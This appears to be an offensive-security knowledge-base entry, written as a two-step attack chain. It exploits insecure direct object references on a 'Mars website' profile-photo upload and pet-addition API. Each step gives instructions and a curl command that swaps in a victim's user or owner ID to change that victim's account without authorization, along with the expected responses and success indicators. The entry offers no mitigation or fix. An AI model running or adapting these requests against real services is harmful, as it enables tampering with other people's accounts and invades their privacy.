

---
tags:
  - idor
  - web-vulnerability
  - account-tampering
  - unauthorized-access
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploit-IDOR-in-Profile-Photo-Upload]]'
  - '[[procedures/Exploit-IDOR-in-Pet-Addition-Feature]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:25:34.501Z'
description: >-
  A multi-stage attack exploiting Insecure Direct Object References (IDOR) in
  the Mars website's profile photo upload and pet addition features to
  manipulate other users' accounts without authorization.
skill_level: intermediate
impact_level: high
id: c0d8598b-64f2-441b-9922-8213699067c7
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# IDOR Exploitation in Profile Photo Upload and Pet Addition for Unauthorized Account Tampering

Multi-stage attack chain demonstrating exploitation of IDOR vulnerabilities on the Mars website to enable unauthorized manipulation of user accounts, including uploading profile photos and adding pets to victims' profiles.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web proxy tool like Burp Suite for request interception (inferred for manipulation)

### Target Environment

- Web platform (Mars website)
- Required services/ports: HTTP/HTTPS on port 80/443
- Network access requirements: Direct internet access to the target website

### Initial Access Requirements

- Valid user account on the Mars website for initial login
- Network position: External attacker with authenticated session
- Prior access needed: Ability to log in and access profile features

## Detailed Attack Procedures

### Step 1: Exploit Profile Photo Upload IDOR
procedure: [[procedures/Exploit-IDOR-in-Profile-Photo-Upload]]

**Objective**: Identify and exploit the IDOR vulnerability in the profile photo upload feature to upload unauthorized photos to another user's account.

**Instructions**: Log in to the Mars website and navigate to the profile photo upload section. Intercept the upload request using a web proxy. Modify the user identifier parameter (e.g., user_id) to target a victim's account. Replay the request with a malicious image file to upload it to the victim's profile.

Use [[commands/curl-upload-profile-photo-idor]] to simulate the modified request:

```bash
curl -X POST -F "user_id=VICTIM_USER_ID" -F "file=@malicious_photo.jpg" https://mars.example.com/api/upload-profile -H "Cookie: session=your_session_cookie" -H "Authorization: Bearer your_token"
```

Then verify the upload by accessing the victim's profile page.

**Expected Output**: HTTP 200 response confirming successful upload; victim's profile shows the new photo upon refresh.

**Success Indicators**:
- Unauthorized photo appears on victim's profile
- No authorization error in response

### Step 2: Exploit Pet Addition IDOR
procedure: [[procedures/Exploit-IDOR-in-Pet-Addition-Feature]]

**Objective**: Exploit the IDOR in the pet addition system to add unauthorized pets to a victim's account, compromising data integrity.

**Instructions**: From the authenticated session, navigate to the pet addition feature. Intercept the addition request and alter the user ownership parameter (e.g., owner_id) to the victim's ID. Submit the request with fabricated pet details to add it to the unauthorized account.

Execute [[commands/curl-add-pet-idor]] for the exploitation:

```bash
curl -X POST -d '{"owner_id": "VICTIM_USER_ID", "pet_name": "Unauthorized Pet", "pet_type": "Dog"}' https://mars.example.com/api/add-pet -H "Cookie: session=your_session_cookie" -H "Authorization: Bearer your_token"
```

Check the victim's account to confirm the added pet.

**Expected Output**: HTTP 201 response with pet addition confirmation; pet listed in victim's profile.

**Success Indicators**:
- New pet appears in victim's account without their consent
- API response indicates successful addition

## Attack Chain Summary

### Key Achievements

1. Unauthorized profile photo upload to victim accounts, enabling visual tampering and privacy invasion.
2. Unauthorized pet additions, altering user data and demonstrating full account manipulation potential.
3. Overall compromise of user privacy and account integrity via IDOR flaws.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
